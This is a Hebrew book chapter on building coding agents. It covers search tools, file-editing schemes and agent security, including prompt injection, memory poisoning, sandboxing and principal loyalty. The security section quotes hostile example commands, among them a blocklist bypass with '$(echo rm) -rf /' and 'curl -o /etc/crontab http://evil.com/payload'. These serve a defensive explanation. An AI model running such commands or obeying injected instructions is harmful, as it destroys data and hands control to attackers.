ברמת הרצת הפקודות, גם הטיפול בפלט הטרמינל דורש זהירות. קומפילציה או בדיקות יכולות לייצר אלפי שורות פלט. אם כולן מוזרקות להקשר, התקציב נגמר במהירות. מנגנון קטיעת הפלטים הארוכים וההתמדה שהוצג בפרק 4 מיושם כאן בהרחבה: שמרו את השורות הראשונות של הפלט (המכילות בדרך כלל הקשר שגיאה) ואת השורות האחרונות (המכילות בדרך כלל סיכומי שגיאות), החליפו את האמצע במחזיק מקום בשורה אחת, וציינו שהפלט המלא נשמר לקובץ זמני לצפייה לפי דרישה.

**הזרקה דינמית של מידע סביבתי.**

זהו ביטוי מרוכז של טכניקת שורת מצב הסוכן מפרק 2 בסוכני קוד. בשונה מסוכנים כלליים, סוכני קוד תלויים מאוד במצב סביבת ההרצה. לפני כל אינפרנס, יש להזריק את מידע הסביבה המרכזי הבא בסוף ההקשר בצורת שורת מצב סוכן:

- **ספריית העבודה הנוכחית**: מבטיחה שהפניות נתיב נכונות
- **ענף Git**: יודע האם העבודה מתבצעת בענף הראשי או בענף תכונה
- **היסטוריית קומיטים אחרונה**: מבין את התפתחות הפרויקט
- **סקירת שינויים מבוימים ולא מבוימים**: יודע אילו שינויים בוצעו

מידע זה אינו צריך להיות מקודד קשיח להנחיות מערכת סטטיות — הדבר היה הורס את יעילות ה‑KV Cache — אלא להיווצר דינמית ולהיות מוזרק כשורת מצב סוכן מצורפת. כך, הסוכן רוכש "מודעות סביבתית", כשכל החלטה מבוססת על הבנה מדויקת של המצב הנוכחי, ולא על הנחות מיושנות.

**התמדת מצב בסביבת הרצת הפקודות.**

באינטראקציה עם קוד, פעולות רבות תלויות במצב הסביבה: החלפת ספריות, הפעלת סביבות וירטואליות, הגדרת משתני סביבה, הפעלת שירותי רקע. אם כל פקודה מורצת ב‑shell טרי, כל המצב הזה אובד — הסוכן זה עתה השתמש ב‑`cd` כדי לנווט לספריית הפרויקט, אך הפקודה הבאה מתחילה שוב בספריית ברירת המחדל של ה‑shell, ומאלצת אותו לחזור על אותה הגדרה. גרוע מכך, השפעותיהן של פעולות מסוימות (כמו הפעלת סביבה וירטואלית של Python) תקפות רק בתוך סשן ה‑shell הנוכחי ואינן ניתנות להעברה בין סשנים.

לפיכך, יש לתחזק סשן טרמינל מתמיד, הנוצר כשהסוכן מתחיל ונשמר פעיל לאורך האינטראקציה כולה. כל פקודה מורצת בטרמינל משותף זה, תוך שימור ספריית העבודה, משתני הסביבה ומצב הסשן. עיצוב זה מיושר יותר עם הרגלי העבודה של מפתחים אנושיים — אנו בדרך כלל עובדים בחלון טרמינל ארוך טווח. כמובן, הסוכן צריך גם לשמר את היכולת להפעיל טרמינלים מבודדים כדי לתמוך במשימות מקביליות, אך הסשן המתמיד צריך להיות מצב ברירת המחדל.

**מנגנון משוב תחבירי מיידי.**

הדבר מדגים שוב את ערכה של טכניקת שורת מצב הסוכן. לאחר שהסוכן משנה קוד, אין לו להמתין שהמשתמש יבקש במפורש בדיקה לפני שהוא בודק תחביר. גישה יעילה יותר היא ששכבת הכלים תריץ אוטומטית את ה‑linter או את בודק התחביר המתאים ברגע שפעולת כתיבת הקובץ הושלמה ותציג את התוצאות כחלק מערך ההחזרה של הכלי לסוכן. אם מזוהה שגיאת תחביר, הסוכן רואה את פרטי השגיאה מיד בסבב האינפרנס הבא — בדומה מאוד ל‑IDE המסמן מיד סוגר שאינו תואם. מנגנון משוב מיידי זה מצמצם משמעותית את עלות תיקון השגיאות, משום שהסוכן יכול לתקן את השגיאה ברגע שהיא מוכנסת, מבלי להמתין להרצת בדיקות כדי לגלות את הבעיה.

חמש טכניקות מימוש אלה — מקביליות וזרימה, ניהול הקשר, מודעות סביבתית, התמדת מצב ומשוב מיידי — מהוות יחד את היסוד הטכני של סוכן קוד יעיל. הן אינן נקודות אופטימיזציה מבודדות, אלא החלטות עיצוב המחזקות זו את זו, וכולן מצביעות למטרה אחת: לאפשר לסוכן לעבוד בחלקות של מפתח מנוסה.

### כלי חיפוש בסוכני קוד

איתור קוד רלוונטי בבסיס קוד גדול הוא נקודת הפתיחה של עבודתו של סוכן קוד. איור 5‑3 משווה כמה כלי חיפוש משלימים, וממחיש כיצד סוכן קוד בשל צריך לבחור שיטות אחזור על בסיס טבע המשימה.



**התאמת תוכן בביטויים רגולריים** (grep/ripgrep): שיטת החיפוש המסורתית ביותר, הסורקת תוכן קבצים שורה אחר שורה לאיתור התאמות דפוס. כאשר הסוכן יודע את הטקסט המדויק שיש למצוא (שמות פונקציות, שמות משתנים, הודעות שגיאה), הוא יכול לאתר כל מופע במהירות ובדייקנות. כוח הביטוי של ביטויים רגולריים (תחביר לתיאור דפוסי טקסט באמצעות סמלים מיוחדים, למשל `def handle.*` מתאים לכל הגדרות הפונקציות המתחילות ב‑`handle`) לוכד דפוסים מורכבים — לא רק טקסט מילולי, אלא קוד התואם למבנה מסוים. בפועל, יש לתמוך גם בסינון לפי סוג קובץ (חיפוש בקובצי Python בלבד) ובסינון לפי דפוס נתיב (החרגת ספריות בדיקה) כדי לצמצם רעש. המגבלה היסודית: הוא מוצא רק התאמות טקסטואליות ואינו מבין סמנטיקה — חיפוש "אימות משתמש" לעולם לא יעלה פונקציה המטפלת בלוגיקת התחברות אך במקרה אינה מכילה את המילה "אימות".

**התאמת דפוס שמות קבצים** (glob): מתעלם מתוכן הקבצים, ומחפש רק במבנה הנתיבים של מערכת הקבצים אחר קבצים התואמים לדפוס. לדוגמה, `**/*.test.ts` מוצא רקורסיבית את כל קובצי הבדיקה ב‑TypeScript,‏ `src/components/**/Button.tsx` מחפש את Button.tsx בכל עומק תחת components. הוא מהיר בהרבה מחיפוש תוכן (אין צורך לפתוח ולקרוא קבצים) והוא הצעד הראשון של הסוכן בחקירת מבנה הפרויקט — ביסוס מהיר של מסגרת הארגון של הפרויקט באמצעות סריקת מערכת הקבצים כולה.

**חיפוש קוד סמנטי**: בשונה משתי שיטות ההתאמה המדויקת הראשונות, הוא מנסה להבין את "המשמעות" של השאילתה ושל הקוד. עליו לפתור שתי בעיות מרכזיות:

- **פירוק מודע‑מבנה**: לקוד יש מבנה תחבירי נוקשה ויש לפצל אותו לפי יחידות סמנטיות מלאות כגון פונקציות, מחלקות ומתודות, ולא לחתוך בעיוורון לפי מספר תווים קבוע.
- **אחזור היברידי** (פרק 3 מפרט מחסנית טכנולוגיה זו): שיכוני וקטורים (שיכונים צפופים) מצטיינים במציאת קוד דומה סמנטית בניסוח שונה (למשל, חיפוש "אמת זהות משתמש" יכול למצוא פונקציה בשם `check_credentials`), בעוד שהתאמת מילות מפתח מצטיינת בהתאמה מדויקת של שמות פונקציות ומשתנים. השניים רצים במקביל, והתוצאות ממוזגות וממוינות על ידי מדרג מחדש (מקודד צולב המבצע דירוג רלוונטיות ברמת פירוט עדינה על תוצאות מועמדות), ומספקים כיסוי משלים.

חיפוש סמנטי מתאים במיוחד למשימות חקירתיות, כגון מציאת קוד הקשור ל"אינטראקציה עם מסד הנתונים" או ל"טיפול באימות קלט משתמש" בבסיס קוד לא מוכר.

עם זאת, קיים ויכוח ברור בתעשייה האם כדאי לבנות אינדקסי שיכונים לחיפוש סמנטי. סוכנים מבוססי טרמינל כגון Claude Code **אינם בונים בכוונה אינדקסי שיכונים**, ונשענים אך ורק על grep + glob סוכניים לאחזור בזמן אמת — הדבר נמנע מתחזוקת אינדקסים המתיישנים ככל שהקוד מתפתח, מבטל את תשתית האינדוקס כולה. כלים מבוססי IDE כגון Cursor נקטו בתחילה בגישה ההפוכה: הם מוכנים לשלם את מחיר בניית האינדקסים תמורת **היזכרות סמנטית חוצת‑קבצים**, ומשתמשים באינדקסי שיכונים כדי למצוא במהירות קטעים קשורים סמנטית אך מנוסחים אחרת בבסיסי קוד גדולים. כיום, סביבות פיתוח כגון Cursor עברו אף הן לאחזור בזמן אמת באמצעות grep + glob.

**חיפוש הגדרות והפניות ברמת הסמלים**: שיטה זו משתמשת ביכולות "מעבר להגדרה" ו"מצא את כל ההפניות" בסגנון IDE כדי להבחין בין הגדרות סמלים להפניות אליהם — לדוגמה, הוא מזהה את `authenticate` בשורה 42 כהגדרת פונקציה ואת המופע בשורה 189 כקריאה, בעוד שחיפוש טקסט יכול למצוא רק את כל השורות המכילות את אותה מחרוזת. סוכני הקוד המרכזיים כיום אינם משתמשים בשיטה זו.

ארבע שיטות חיפוש אלה מהוות ארגז כלים משלים, המשמש לעיתים קרובות בשילוב בפועל: תחילה השתמשו בחיפוש סמנטי כדי למצוא מודולים רלוונטיים, ואז בהתאמת ביטויים רגולריים כדי לאתר בדייקנות שורות קוד ספציפיות, ולבסוף בחיפוש סמלים כדי לעקוב אחר שרשרת הקריאות — אסטרטגיה מדורגת של "מגס לעדין, מסמנטיקה לתחביר".

### כלי עריכת קבצים בסוכני קוד

הקושי בעריכת קבצים אינו בפעולה עצמה, אלא בכיצד לומר למערכת ביעילות ובאמינות "מה לשנות וכיצד לשנות" באמצעות LLM. איור 5‑4 משווה חמישה מנגנוני עריכת קבצים, וממחיש את המתח היסודי בין ביטוי בשפה אנושית לביצוע מדויק במכונה.


**תיאור דיף + מודל יישום**: המודל אינו מציין ישירות כיצד לערוך את הקובץ; במקום זאת, הוא מייצר תיאור שינוי — שיכול להיות טקסט דיף הדומה ל‑git diff (הפורמט שפקודת `git diff` מוציאה, המראה "אילו שורות נמחקו ואילו נוספו"), או שלד קוד עם סמני השמטה (שימוש בהערות כגון "נשאר ללא שינוי כאן" כדי לדלג על חלקים שלא שונו). תיאור זה נמסר לאחר מכן ל"מודל יישום" מתמחה — בדרך כלל LLM נוסף, קטן ומהיר יותר — האחראי על מיזוגו עם הקובץ המקורי כדי לייצר את הקובץ החדש המלא. הפרדת דאגות זו מאפשרת למודל הראשי להתמקד בלוגיקת קוד ברמה גבוהה ולמודל היישום להתמקד בפעולות טקסט ברמה נמוכה. שבריריותו של מימוש נאיבי טמונה בשלב המיזוג: כאשר יש אי‑התאמות קלות בין תיאור השינוי לקוד בפועל בקובץ, עליו לקבוע האם הם מתייחסים לאותו מיקום; כאשר יש כמה קטעי קוד דומים, הוא עלול למזג במקום הלא נכון. Cursor הוא נציג ההתפתחות המתמשכת של גישה זו: המודל הראשי מוציא שלד קוד עם סמני השמטה, מודל קטן מאומן במיוחד ליישום מהיר משכתב את הקובץ המלא, ופענוח ספקולטיבי (שימוש בתוכן הקובץ המקורי כטיוטה לאימות מקבילי) דוחף את מהירות המיזוג לאלפי טוקנים לשנייה — השקעה הנדסית קנתה לגישה זו אמינות ומהירות.

**מחרוזת ישנה ← מחרוזת חדשה**: הגישה שאימץ Claude Code. המודל מספק מחרוזת ישנה (הטקסט המקורי שיוחלף) ומחרוזת חדשה (טקסט ההחלפה), והמסגרת מבצעת מציאה והחלפה פשוטה של מחרוזות. היתרון הוא צפיות ושקיפות — אם המחרוזת הישנה קיימת וייחודית בקובץ, זה מצליח; אחרת, זה נכשל. אין עמימות. המחיר הוא שמחיקת בלוקי קוד גדולים דורשת הוצאה של כל התוכן המקורי במלואו; סטייה של תו אחד גורמת לכישלון ההתאמה. כאשר אותו קוד מופיע מספר פעמים, יש לספק הקשר ארוך יותר כדי לפרק את המשמעות.

**כיוון לפי מספרי שורות** (מספרי שורות ישנים ← מחרוזת חדשה): המודל מציין "מחק שורות X עד Y, הכנס תוכן חדש". מספרי שורות מדויקים וחד‑משמעיים, ומחיקת בלוקים גדולים דורשת רק שני מספרים. עם זאת, המודל נוטה לשגיאות ב"ספירת" מספרי שורות, במיוחד עבור קבצים ארוכים מאוד. בפועל, הדבר מוקל באמצעות הוספת הערות מספרי שורות לכל שורה בעת קריאת הקובץ, אך מספרי השורות שאחרי משתנים לאחר כל עריכה, מה שמגביל את המקביליות של עריכות מרובות.

**פקודות עריכה בסגנון Vim**: שאילה ממערכת הפקודות של עורך Vim, בתמיכת פעולות עשירות כגון העתקה, גזירה והדבקה. יעילות מאוד לבנייה מחדש של קוד (העברת פונקציה ממקום אחד לאחר). אך תחביר הפקודות נושא נטל למידה אמיתי: המודלים החזקים ביותר מתמודדים איתו היטב; מודלים קטנים יותר עושים טעויות רבות בהרבה.

**התאמת התחלה + סוף של מחרוזת** (התחלת + סוף מחרוזת ישנה ← מחרוזת חדשה): ניתן לראות בכך שיפור על מנגנון החלפת המחרוזת הישנה. המודל אינו צריך להוציא את המחרוזת הישנה המלאה; עליו רק לספק את השורות הראשונות ואת השורות האחרונות של התוכן שיימחק, תוך השמטת החלק האמצעי. המסגרת מאתרת את אזור ההחלפה מזוג ההתחלה‑סוף הזה, בתנאי שהצירוף ייחודי בתוך הקובץ. מנגנון זה משלב את אמינות החלפת הטקסט עם יעילות גישת מספרי השורות — בעת מחיקת בלוקי קוד גדולים, אין צורך להוציא מאות שורות קוד מקורי, יש להראות רק את הגבולות. בה בעת, מכיוון שהוא עדיין מבוסס על התאמת תוכן ולא על מספרי שורות מופשטים, הסיכון שהמודל יטעה נמוך יחסית.

**עצה מעשית.** סוכני קוד מרכזיים נחלקים לשני מחנות, שלכל אחד ספינת הדגל שלו: Claude Code נוקט "מחרוזת ישנה למחרוזת חדשה" — אמינות תחילה, פשוט למימוש, ללא צורך במודל נוסף; Cursor דחף את מסלול מודל היישום לקצה — משלם עבור האימון והאינפרנס של מודל יישום מהיר ייעודי בתמורה לתפוקת עריכה גבוהה יותר. אם אתם בונים סוכן משלכם, "מחרוזת ישנה למחרוזת חדשה" היא נקודת הפתיחה הבטוחה ביותר; לעריכות בקנה מידה גדול, "התאמת התחלה + סוף של מחרוזת" היא הפשרה הכלכלית יותר; גישת מספרי השורות אמינה רק עם שילוב IDE עמוק (שבו העורך מתחזק מיפוי מספרי שורות חי ומספק אותו מחדש למודל לאחר כל עריכה) — אחרת סחיפת מספרי השורות תטביע אותה.

### אבטחה לסוכני קוד

סעיף זה מארגן את ההגנות של סוכן הקוד למסגרת קוהרנטית: תחילה נתווה את **מודל האיומים** — אילו סיכונים קטלניים ביותר; לאחר מכן **בידוד כרשת ביטחון** — יציאת רשת, מערכת קבצים ומגבלות משאבים בארגז החול; לאחר מכן **הגנה בזמן ביצוע** — ניתוח סמנטי של פקודות, וביצוע ספקולטיבי ההופך בדיקות אבטחה ל"בלתי נראות"; ולבסוף **אמון ונאמנות** — את מי הסוכן משרת תחת האצלה רב‑צדדית, וכיצד להזיז את גבול האמון מטה לשכבת הנתונים כאשר קוד שנכתב על ידי AI עצמו אינו ראוי לאמון. דיוני מודל האיומים, הנאמנות וגבול האמון חלים על כל הסוכנים; ארגז החול וניתוח הפקודות ספציפיים לסוכני קוד.

פרדיגמת "הסוכן הריבוני" הזו מציגה גם אתגרי אבטחה חמורים. לסוכן קוד יש הרשאות לקרוא ולכתוב קבצים, להריץ פקודות ולגשת לרשתות, כלומר ברגע שהוזרקו לו הוראות זדוניות, הוא עלול לגרום נזק בלתי הפיך. המפתח והחוקר העצמאי סיימון וויליסון סיכם סיכון זה ב"שילוש הקטלני" המפורסם שלו — כאשר כל שלושת המרכיבים קיימים, הם יוצרים לולאת התקפה מלאה, ומעמידים את המערכת בסיכון גבוה:

1.  **גישה לנתונים פרטיים** — הסוכן יכול לקרוא קובצי משתמש ומנהלי סיסמאות.
2.  **חשיפה לתוכן בלתי מהימן** — הודעות דוא"ל ודפי אינטרנט המעובדים עשויים להכיל מטענים זדוניים.
3.  **יכולת לתקשר החוצה** — הוא יכול לשלוח דוא"ל ולהריץ פקודות.

הדבר סוגר את לולאת ההתקפה: הוראות זדוניות המוסתרות בתוכן בלתי מהימן נכנסות לסוכן, מניעות אותו לקרוא נתונים פרטיים, ואז מוציאות אותם דרך ערוצים חיצוניים. שימו לב שנוכחות שלושת המרכיבים מסוכנת דיה בפני עצמה, ללא תנאים נוספים כלשהם. בהתבסס על כך, המחבר מוסיף ממד רביעי — **זיכרון מתמיד**. אין זה תנאי הכרחי רביעי מקביל, אלא מגבר להתקפות: תוקף יכול לכתוב הטיות שנראות לא מזיקות או הוראות זדוניות לזיכרון ארוך הטווח של הסוכן, שם הן רדומות לאורך סשנים ומופעלות ברגע מתאים — ובכך הופכות התקפה חד‑פעמית לאיום האורב ומצטבר עם הזמן.

ארבע נקודות אלה ניתנות לסיכום כארבעה סוגי גבולות: גבול נתונים, גבול אמון קלט, גבול השפעת פלט, וגבול חוצה‑סשנים. סוכן מקומי בעל הרשאות מלאות כגון OpenClaw משתרע על כל ארבעת ממדי הסיכון, מה שהופך את הגנת האבטחה לאתגר ליבה שסוכנים כאלה חייבים להתמודד איתו.

הדבר מסביר גם מדוע סוכנים מסחריים בקוד סגור (כגון Claude Cowork (הסוכן לשימוש כללי של Anthropic לעבודת ידע, העושה שימוש חוזר בארכיטקטורה הסוכנית של Claude Code, ומסוגל לקרוא ולכתוב קבצים מקומיים ולהשלים משימות רב‑שלביות על פני יישומי משרד מרובים)) בחרו באסטרטגיות הרשאה שמרניות. נגד הזרקת פרומפט, סינון קלט בלבד כמעט אינו מסייע. המטרה אינה לזהות כל התקפה, אלא להבטיח שסוכן שהוזרק לעולם לא יקבל את ההזדמנות להוציא פעולה מסוכנת אל הפועל. כאן בדיוק נכנסים לפעולה שלושת מעקות הבטיחות מפרק 1. בהשוואה לסוכנים אחרים, סוכני קוד צריכים לשים לב במיוחד ל:

- **ניתוח סמנטי של פקודות** — הפיצוץ הקומבינטורי של פקודות Shell הופך רשימות שחורות של מילות מפתח לחסרות תועלת; יש להבין את ההשפעה האמיתית של פקודה ברמה הסמנטית (מורחב בהמשך סעיף זה);
- **בידוד ארגז חול ובקרת יציאת רשת** — הרצת קוד היא משטח תקיפה ייחודי לסוכני קוד; הבחירות ההנדסיות לרמות בידוד ולאסטרטגיות יציאה מכוסות בהמשך סעיף זה;
- **הגנה חוצת‑סשנים לזיכרון מתמיד** — פרק זה מרחיב את ניתוח השילוש הקטלני לזיכרון מתמיד: תוכן הנכתב לזיכרון ארוך טווח חייב לעבור את אותה סקירת אמון כמו קלט חיצוני כך שהוראות זדוניות לא יוכלו לרבוץ ב‑`MEMORY.md` ולהיכנס לתוקף מאוחר יותר.

שלוש הגנות אלה נופלות לשכבות האימות, הביצוע והנתונים בהתאמה, ומשלימות את מערכת ההגנה משני הפרקים הקודמים. אסטרטגיות אלה אינן יכולות לבטל לחלוטין את הסיכון, אך הן יכולות לצמצם את משטח התקיפה של הסוכן.

**בידוד כרשת ביטחון: בחירות הנדסיות לארגז החול של הרצת הקוד.**

- **בקרת יציאת רשת.** זהו הפריט שהכי קל להתעלם ממנו והקריטי ביותר: ללא רשת כברירת מחדל, עם גישה הניתנת לפי דרישה באמצעות proxy עם רשימה לבנה למערך יעדים מוגבל (מקורות חבילות, אתרי תיעוד, ממשקי API שהמשימה דורשת במפורש). במבט לאחור על פריט 3 של השילוש הקטלני — "יכולת לתקשר החוצה" — בקרת יציאת הרשת היא ההגנה שלו בשכבת הביצוע: גם אם הזרקת פרומפט מצליחה וקוד זדוני קורא נתונים רגישים בתוך ארגז החול, ללא מסלול יציאה, הנתונים אינם ניתנים להעברה. בהשוואה לניסיון לזהות כל הזרקה, ניתוק ערוץ הוצאת הנתונים הוא קו הגנה דטרמיניסטי הרבה יותר.
- **היקף בידוד מערכת הקבצים.** מפו את ספריית קוד המקור לקריאה בלבד (הסוכן משנה קוד באמצעות כלי עריכה, והתיקונים שנוצרים נסקרים לפני שהם נכתבים לדיסק, או שעותק ממופה לסביבת עבודה הניתנת לכתיבה); ספריית סביבת עבודה נפרדת הניתנת לכתיבה מחזיקה תוצרים שנוצרו וקובצי ביניים; קובצי אישורים (`~/.ssh`, מפתחות, אסימונים) אינם ממופים כלל לארגז החול — נתונים בלתי נראים אינם ניתנים להדלפה, בהתאמה לפריט 1 של השילוש הקטלני.
- **מגבלות משאבים ופסקי זמן.** קבעו מכסות למעבד, לזיכרון ולדיסק, בתוספת פסק זמן בשעון קיר, כדי להתגונן מפני לולאות אינסופיות, פצצות fork (תהליך המשכפל את עצמו במהירות עד שהמערכת קורסת), וכתיבות דיסק בלתי מוגבלות. פרט מעשי: פסקי זמן והפרות מגבלה צריכים להחזיר שגיאה מובנית לסוכן ("הביצוע הופסק לאחר 120 שניות, הפלט האחרון היה...") ולא לחסל בשקט את התהליך, ובכך לתת לסוכן הזדמנות לתקן את אסטרטגייתו בתור הבא.
- **יישוב סשנים מתמידים ובידוד.** הסעיף המאוחר יותר "התמדת מצב בסביבת הרצת הפקודות" תומך בתחזוקת סשני טרמינל ארוכי טווח, בעוד שעקרון הבידוד תומך בסביבות חד‑פעמיות — קיים מתח בין השניים. גישת היישוב היא **לשמור את הסשן חי רק בתוך ארגז החול**: סשן הטרמינל לעולם אינו צריך לשרוד מעבר לארגז החול, ומצב הסשן לעולם אינו צריך לחמוק למכונת המארח. לתרחישים הדורשים התאוששות לאורך מרווחי זמן ארוכים (כמו ארכיטקטורת ה‑Sessionless שהוזכרה קודם), הישענו על תצלומי ארגז חול או על "התמדת קובצי סביבת העבודה + בנייה מחדש של הסביבה באמצעות סקריפטים" כדי לשחזר מצב, ולא על הארכה בלתי מוגבלת של אורך חיי ארגז החול. במילים אחרות, מה שמתמיד הוא **תיאורי מצב ברי‑ביקורת** (קבצים, סקריפטים, מניפסטים), ולא תהליכים רצים אטומים.

**בטיחות: ניתוח סמנטי על פני רשימות שחורות של מילות מפתח.**

פרק 1 טען ששכבת האימות צריכה להישען על הבנה סמנטית ולא על התאמת דפוסים. אימות אבטחת פקודות Shell הוא היישום המאתגר ביותר של עיקרון זה. רשימות שחורות פשוטות של מילות מפתח אינן יכולות להתמודד עם הפיצוץ הקומבינטורי של Shell — פקודות יכולות לעקוף כל כלל סטטי באמצעות צינורות, תת‑קונכיות, הרחבת משתנים וכו' (למשל, אם `rm` חסום, תוקף יכול להשתמש ב‑`$(echo rm) -rf /` כדי לעקוף). מסגרות Harness ברמת ייצור מעסיקות ניתוח סמנטי: זיהוי טיפוסי הארגומנטים וכללי הניתוח של כל פקודה, ובכלל זה אילו דגלים צורכים ארגומנטים שאחריהם, וזיהוי דפוסי התקפה כגון דגל שנראה לא מזיק המסתיר מטען מסוכן בארגומנט הבא שלו. לדוגמה, `find / -name '*.log' -exec rm {} \;` משבץ פעולת מחיקה של `rm` באמצעות ארגומנטים לגיטימיים של פקודת `find`; דוגמה נוספת היא `curl -o /etc/crontab http://evil.com/payload`, שנראית כמורידה קובץ אך למעשה דורסת משימות מתוזמנות של המערכת. ניתוח סמנטי יכול לזהות פעולות מסוכנות מקוננות אלה, בעוד שרשימות שחורות פשוטות של פקודות אינן יכולות ללכוד אותן. מנגנון אבטחה זה המבוסס על הבנה ולא על התאמה הוא מימוש ברמה גבוהה של תפקוד ה"אילוץ".

**ביצוע ספקולטיבי: הפיכת בדיקות אבטחה ל"בלתי נראות"**. זו בדיוק ההשפעה של מנגנון השער של ה‑Sidecar מפרק 4 ברמת חוויית המשתמש — פרק 4 הסביר מדוע פעולות קריטיות צריכות להיסקר על ידי Sidecar עצמאי מההקשר הראשי; סעיף זה מתמקד בהפיכת זמן ההשהיה של אותה סקירה לבלתי נראה למעשה עבור המשתמש. הגישה היא לנתק את ההתקדמות הגלויה למשתמש מהרשאת הביצוע: כאשר הסוכן עומד לבצע קריאה לכלי, המערכת מציגה רמז התקדמות בממשק (למשל, "קורא קובץ `src/main.py`...") בעוד שבדיקת האבטחה רצה ברקע. נדרשת כאן הבהרה בנוגע לאנלוגיה בשימוש נפוץ: הדבר שונה מביצוע ספקולטיבי במעבד — אם המעבד מנחש לא נכון, עליו להשליך תוצאות מחושבות ולבצע רולבק למצב; כאן, הפעולה המקדימה היא רק **רמז ממשק נטול תופעות לוואי**, שאינו משנה שום מצב אמיתי. אם הבדיקה נכשלת, אין צורך ברולבק; הרמז פשוט מוחלף ב"ממתין לאישור". ברוב המקרים, בדיקת האבטחה מסתיימת עוד לפני שהמשתמש מבחין, ולכן המשתמש אינו חש זמן השהיה נוסף; רק כאשר קביעה מהירה בלתי אפשרית המערכת עוצרת בפועל וממתינה לאישור. זהו שיא עיצוב ה‑Harness: אבטחה מבלי להקריב את חוויית המשתמש.

**את מי הסוכן משרת: נאמנות תחת האצלה רב‑צדדית.**

מנגנוני האבטחה שלעיל מונעים "ביצוע זדוני של פקודות"; קיימת סוגיית אבטחה עדינה יותר — **נאמנות למרשה**: **לצדו של מי הסוכן נמצא בפועל**. מודלים מאומנים עם עיקרון ברירת מחדל נאיבי — "מי שמדבר איתי, אשתדל לעזור לו" — אך סוכנים בעולם האמיתי פועלים לעיתים קרובות תחת **האצלה רב‑צדדית**: פועלים בשם מרשה בעודם מתמודדים עם צדדים שלישיים שאינטרסיהם מתנגשים. סוכן המנהל משא ומתן על מחיר בשמכם ניצב לא מול "משתמש הזקוק לעזרה" אלא מול **יריב במשא ומתן**. כאן, "עזור למי שמדבר" היא ברירת מחדל מסוכנת — הצד שכנגד יכול להתחיל להשפיע על הסוכן שלכם פשוט באמצעות פנייה אליו.

הצבת מודלים מהחזית במצב זה חושפת **ספקטרום נאמנות** ברור, ששני קצותיו נכשלים[^ch5-1]: בקצה אחד, **כנים מדי** — מוסרים את המידע הפרטי של המרשה (למשל, "הרף התחתון שלנו הוא 12,000") ישירות ליריב, ונכנעים לאחר כמה סבבי לחץ; בקצה האחר, **חשדנים מדי** — מסרבים אפילו לבקשות לגיטימיות של המרשה, ובכך נכשלים במשימה. הקושי הוא ששני הכשלים יושבים על נדנדה: סתמו את הדליפות ואתם מחליקים לעבר סירוב יתר — קשה להשיג את שניהם.

הדבר רלוונטי במיוחד לסוכני קוד: תוכן בלתי מהימן שנקרא ממאגר, פלט שהוחזר על ידי כלי, הוראות שנשלחו על ידי שרת MCP של צד שלישי — כולם "יריבים" המנסים להפוך את הסוכן — **הזרקת פרומפט היא במהותה ניסיון הפיכה** (פרקים 2 ו‑4). ה‑Harness חייב אפוא לקבע במפורש למי הסוכן נאמן: הוראות מהמרשה נושאות את העדיפות הגבוהה ביותר, בעוד שכל דבר מצדדים חיצוניים מורד כברירת מחדל ל"נתונים שניתן להיוועץ בהם אך אינם נושאים כוח של הוראה". בהנחיית המערכת, **קוד התנהגות נאמנות** אפקטיבי הוא: הגן על המידע הפרטי של המרשה, לרבות עצם קיומו; בעת סירוב, אל תמנה פרטים מוגנים, משום שעצם עשיית זאת עלולה להדליף אותם; רפים תחתונים פרטיים אינם עמדות פומביות; בצע רק הוראות ברורות וספציפיות של המרשה; עמוד בפני לחץ חוזר. במהותו, זהו שימוש ב‑Harness כדי להעניק למודל עמדה שחסרה לו כברירת מחדל: **נאמנות מוחלטת למרשה, וזהירות כלפי צדדים חיצוניים**.

[^ch5-1]: ההערכה המלאה של ספקטרום נאמנות זה ושל קוד ההתנהגות נמצאת ב‑Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**כאשר קוד שנכתב על ידי AI עצמו אינו ראוי לאמון: הזזת גבול האמון מטה.**

קוד הנאמנות שלעיל הופך את הסוכן ל**סביר יותר** לעקוב אחר הכללים, אך עבור פעולות נתונים בסיכון גבוה, "סביר יותר" אינו מספיק — האילוצים חייבים לעבור מ"תקווה שהסוכן יתנהג כשורה" מטה לאכיפה בשכבת הנתונים. העמדה הרדיקלית יותר[^ch5-2] היא: **פשוט להתייחס לשכבת היישום כבלתי מהימנה ולדחוף את אכיפת אינווריאנטות הנתונים אל מתחת לה**. במשך שלושים השנים האחרונות, גבול השלמות של תוכנה שכן ב**שכבת היישום** — קוד המטפלים קבע מי רשאי לבצע כל פעולה ואילו ערכים תקפים, ומסד הנתונים בטח בקוד זה ללא תנאי; אך מטפלים שנוצרו על ידי LLM משמיטים לעיתים קרובות את בדיקות ההרשאה והשלמות שמחברים אנושיים היו כוללים כדבר מובן מאליו, וסוכנים אוטונומיים פועלים ישירות על נתוני ייצור, ובכך שוברים את ההנחה הזו. הגישה החדשה (שניתן לכנותה אובייקטי נתונים משובצי‑הרשאות) גורמת לכל ישות נתונים לשאת כללי הרשאה הצהרתיים, מאמתים והצהרות השלכה בתוך **סכמה שנסקרה על ידי אדם**, הנאכפת על ידי צינור זמן ריצה ב**כל כתיבה**. הפרימיטיב המרכזי הוא **הקשר הגישה** המצורף לכל פעולה: מטפל שנוצר מחדש רץ עם הרשאות המשתמש שהוא משרת, בעוד שסוכן אוטונומי רץ תחת זהות מוגבלת משלו (scoped principal) — במקום רק לקוות שהסוכן יישאר נאמן, הארכיטקטורה מתייחסת אליו כאל בעל סמכות מוגבלת, כך שגם אם נפרץ, הוא אינו יכול לחרוג מהרשאותיו.

בהשוואות המשתמשות באותו מערך פרומפטים, מנגנון זה הפיק **אפס כתיבות שהפרו את האינווריאנטות המוצהרות**, בעוד ש‑SQL חשוף, בדיקות שנכתבו על ידי LLM, פרומפטים חוקתיים ומיירטי גבולות פעולה — כל אחד מהם העביר בין קומץ לעשרות הפרות. אין זה "סביר יותר להיות נכון" אלא "בלתי אפשרי להיות שגוי", במחיר של כ‑2 מילישניות נוספות לכל כתיבה. כמובן, הערובה מותנית: הסכמה חייבת ללכוד באמת את כל האינווריאנטות הרצויות, והפריסה חייבת לחסום כל מסלול שדרכו השכבה הבלתי מהימנה יכולה לעקוף את האחסון ולהתחבר ישירות למסד הנתונים. עבור סוכני קוד, הדבר מניב עיקרון ארכיטקטוני חשוב: **כאשר גם כותב הקוד וגם מריץ הקוד עשויים להיות בלתי מהימנים, אילוצים אמינים באמת אינם יכולים לשכון בקוד שנוצר, אלא חייבים להיות ממוקמים ביסוד שנסקר על ידי אדם שמתחתיו** — זו הצורה האולטימטיבית של עקרון "אילוצים על פני הנחיה" מפרק 1, ביישום על שכבת הנתונים.

